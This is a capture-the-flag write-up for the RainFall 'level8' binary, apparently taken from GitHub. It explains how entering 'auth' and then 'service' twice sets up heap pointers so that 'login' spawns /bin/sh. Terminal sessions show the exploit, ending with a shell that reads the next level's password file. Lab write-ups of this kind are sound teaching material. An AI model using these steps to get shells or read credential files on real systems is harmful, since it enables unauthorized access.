 We can see on [dogbolt](https://dogbolt.org/), the program `level8` as cut in three part : <br>
`'auth '`, `service` and `login` and we are interested by `login` because there are the function system('/bin/sh')

We can notice, the condition for accessing to /bin/sh are the pointer auth + 0x20(BinaryNinja) are not null
and we can see also `'auth '` initialize auth

Testing the program we obtain :
```Shell
level8@RainFall:~$ ./level8 
> (nil), (nil) 
auth 
> 0x804a008, (nil) 
service
> 0x804a008, 0x804a018
login
Password:
> 0x804a008, 0x804a018
auth 
> 0x804a018, 0x804a018
service
> 0x804a018, 0x804a028
```
Here after each input the program print auth pointer and service pointer


Here we see that after each input of `service` or `auth` a new pointer is created after the previous ones with an increment of 0x10.
We start by initializing the auth pointer and then we input service 2 times to define *(auth + 0x20).
We should have `pointer, pointer+0x20`:
```Shell
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$
$ cat /home/user/level9/.pass
```